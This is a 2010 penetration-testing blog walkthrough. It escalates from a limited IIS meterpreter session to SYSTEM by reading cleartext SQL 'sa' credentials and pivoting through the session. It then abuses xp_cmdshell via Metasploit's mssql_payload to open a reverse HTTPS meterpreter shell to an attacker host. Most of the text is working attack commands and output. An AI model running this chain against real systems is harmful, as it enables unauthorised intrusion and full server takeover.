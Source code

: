 ---
author: mubix
comments: true
date: 2010-05-07 14:05:53+00:00
layout: post
title: 0Exploit Privilege Escalation
categories:
- Hacking
categories:
- metasploit
- pivoting
---

The other day [Chris Gates](http://carnal0wange.attackresearch.com/) posted an [excellent blog post](http://carnal0wnage.attackresearch.com/node/417) about the WebDAV hotness that [Chris Sullo](http://twitter.com/chrissullo) (author of [Nikto](http://cirt.net/Nikto2)) cooked up ([DAVTest](http://security.sunera.com/2010/04/davtest-quickly-test-exploit-webdav.html)) which [Ryan Linn](http://twitter.com/sussurro) popped out a [Metasploit module](http://trac.happypacket.net/browser/msfmods/trunk/modules/auxiliary/scanner/http/webdav_test.rb) for.

Anyways, the story left off being a very limited user called "Network Service". This user has Read and Execute, but no Write access, and a very limited field of view to boot.

```
meterpreter > getuid
Server username: **NT AUTHORITYNETWORK SERVICE**
```

Lets look around a bit..

```
meterpreter > pwd

C:\Inetpub\wwwroot

meterpreter > ls

Listing: C:\Inetpub\wwwroot
===========================
Mode  Size  Type  Last modified  Name
----  ----  ----  -------------  ----
40777/rwxrwxrwx  0  dir  Fri May 07 09:32:19 -0400 2010  .
40777/rwxrwxrwx  0  dir  Mon May 03 12:51:48 -0400 2010  ..
40777/rwxrwxrwx  0  dir  Mon May 03 12:12:57 -0400 2010  admin
100666/rw-rw-rw-  1587  fil  Sat Dec 08 23:01:24 -0500 2001  default.asp
100666/rw-rw-rw-  1465  fil  Sat Dec 08 23:01:24 -0500 2001  default.css
100666/rw-rw-rw-  3295  fil  Thu Jan 03 12:40:48 -0500 2002  forgotpass.asp
40777/rwxrwxrwx  0  dir  Mon May 03 12:12:57 -0400 2010  images
40777/rwxrwxrwx  0  dir  Mon May 03 12:12:57 -0400 2010  language
100666/rw-rw-rw-  1802  fil  Thu Jan 24 12:10:04 -0500 2002  logoff.asp
100666/rw-rw-rw-  7785  fil  Sat Jun 15 19:49:20 -0400 2002  logon.asp
100666/rw-rw-rw-  1801  fil  Mon May 03 12:42:45 -0400 2010  settings.asp
100666/rw-rw-rw-  21137  fil  Wed Aug 28 11:31:42 -0400 2002  setup.asp
```

Sweet! a "settings.asp"

```
meterpreter > cat settings.asp

<SCRIPT LANGUAGE = "VBScript">
<(editorial snip)>
SQLUser = "sa"
SQLPass = "SuperDuper#@rdP@$$w0rd2012"
<(/editorial snip)>
</SCRIPT>
```

SA with clear text password. Good luck bruteforcing that one. But they block 1433 directly to the box so direct SQL queries are out. No problem.

Pivoting to the rescue:

```
meterpreter >
Background session 1? [y/N] 

msf exploit(handler) > route add 192.168.56.0 255.255.255.0 1

msf exploit(handler) > route print

Active Routing Table
====================
Subnet  Netmask  Gateway
------  -------  -------
192.168.56.0  255.255.255.0  Session 1
```

Then we use mssql_login to check to see if our creds are right (set BLANK_PASSWORDS to false since we already know the password and we aren't trying to brute force it). This will be routed through our meterpreter session that has NETWORK SERVICE permissions.

```
msf exploit(handler) > use scanner/mssql/mssql_login
msf auxiliary(mssql_login) > set BLANK_PASSWORDS false
BLANK_PASSWORDS => false

msf auxiliary(mssql_login) > set PASSWORD SuperDuper#@rdP@$$w0rd2012
PASSWORD => SuperDuper#@rdP@$$w0rd2012

msf auxiliary(mssql_login) > set RHOSTS 192.168.56.3
RHOSTS => 192.168.56.3

msf auxiliary(mssql_login) > run

[*] 192.168.56.3:1433 - MSSQL - Trying username:'sa' with password:'SuperDuper#@rdP@$$w0rd2012'

[+] 192.168.56.3:1433 - MSSQL - successful login 'sa' : 'SuperDuper#@rdP@$$w0rd2012'

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Cool. Now some enumeration and check to see if xp_cmdshell is enabled (it outputs a lot of info so I cut it down to just the pieces we are looking for):


```
msf exploit(mssql_login) > use admin/mssql/mssql_enum
msf auxiliary(mssql_enum) > set PASSWORD SuperDuper#@rdP@$$w0rd2012
PASSWORD => SuperDuper#@rdP@$$w0rd2012

msf auxiliary(mssql_enum) > set RHOST 192.168.56.3
RHOST => 192.168.56.3

msf auxiliary(mssql_enum) > run
[*] Running MS SQL Server Enumeration...

[*] Version:
[*] Microsoft SQL Server  2000 - 8.00.194 (Intel X86)
[*] Aug  6 2000 00:57:48
[*] Copyright (c) 1988-2000 Microsoft Corporation
[*] Enterprise Edition on Windows NT 5.2 (Build 3790: Service Pack 2)

<(editorial snip)>

[*] xp_cmdshell is Enabled

<(/editorial snip)>

[*] Instances found on this server:
[*]  MSSQLSERVER
[*] Default Server Instance SQL Server Service is running under the privilege of:
[*] LocalSystem
[*] Auxiliary module execution completed
```

XP_CMDSHELL and the server runs as local system. Looking good, payload time.

```
msf auxiliary(mssql_enum) > use windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https

msf exploit(mssql_payload) > set LHOST 10.10.10.59
LHOST => 10.10.10.59

msf exploit(mssql_payload) > set RHOST 192.168.56.3
RHOST => 192.168.56.3

msf exploit(mssql_payload) > set LPORT 443
LPORT => 443

msf exploit(mssql_payload) > set PASSWORD SuperDuper#@rdP@$$w0rd2012
PASSWORD => SuperDuper#@rdP@$$w0rd2012

msf exploit(mssql_payload) > exploit

[*] HTTPS listener started on https://10.10.10.59:443/
[*] Command Stager progress - 2.78% done (1494/53675 bytes)
[*] Command Stager progress - 5.57% done (2988/53675 bytes)
[*] Command Stager progress - 8.35% done (4482/53675 bytes)

<(editorial snip)>

[*] Command Stager progress - 94.64% done (50796/53675 bytes)
[*] Command Stager progress - 97.32% done (52235/53675 bytes)
[*] 192.168.56.3:1061 Request received for /AvlbV...
[*] 192.168.56.3:1061 Staging connection for target vlbV received...
[*] Patching Target ID vlbV into DLL
[*] 192.168.56.3:1062 Request received for /BvlbV...
[*] 192.168.56.3:1062 Stage connection for target vlbV received...

[*] Meterpreter session 2 opened (10.10.10.59:443 -> 192.168.56.3:1062) at Thu May 06 22:03:50 -0400 2010

[*] Exploit completed, but no session was created.
msf exploit(mssql_payload) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
``` 

Game over..

**Note: Routing only sends the module(be it exploit or aux) through the session. Once the payload runs (for exploit modules), it's is calling straight back to the LHOST (Attacker box), not through the session. So, in this example you can now exit session 1 (NETWORK SERVICE) as it's not really needed any more.**
